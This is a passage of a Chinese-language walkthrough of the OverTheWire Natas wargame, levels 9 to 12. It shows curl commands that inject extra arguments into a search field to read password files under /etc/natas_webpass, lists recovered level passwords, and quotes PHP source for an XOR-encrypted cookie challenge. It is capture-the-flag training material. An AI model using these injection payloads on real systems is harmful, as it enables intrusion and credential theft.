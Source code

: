 ```bash
curl -u natas9:Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd \
-X POST -d 'submit=1&&needle=. ./* #' \                        
http://natas9.natas.labs.overthewire.org/index.php \
| htmlq 'body' | bat -l html
```

还尝试了其他目录，发行不通

最后想起密码在`/etc/natas_webpass/`下，并且是有读取相应密码的权限的。

```bash
curl -u natas9:Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd \
-X POST -d 'submit=1&&needle=. /etc/natas_webpass/natas10 #' \
http://natas9.natas.labs.overthewire.org/index.php \
| htmlq 'body' | bat -l html
```

## level 10 to 11

natas11: 1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg

`/[;|&]/`是[正则表达式](https://zh.wikipedia.org/wiki/%E6%AD%A3%E5%88%99%E8%A1%A8%E8%BE%BE%E5%BC%8F)

这里匹配的是包含`;`，`|`，`&`的字符串。

## level 11 to 12

natas12: YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

在这一级上花了不少时间，还跑去[这里](https://regexone.com)学习了正则表达式，然而这一级的正则表达式只是在检查`bgcolor`的值是否符合rgb的16进制形式。

`Cookies are protected with XOR encryption`提示了重点是cookie和xor加密。

下面是页面的源码：

```php
<?

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';
    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    // .= 字符串拼接
    $outText .= $text[$i] ^ $key[$i % strlen($key)]; // % 取余会循环key
    }
    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    // 使用cookie，cookie里有data字段
    if(array_key_exists("data", $_COOKIE)) {
    // $tempdata: {"showpassword":"no","bgcolor":"#ffffff"}
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        // ?: 非捕获括号
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
```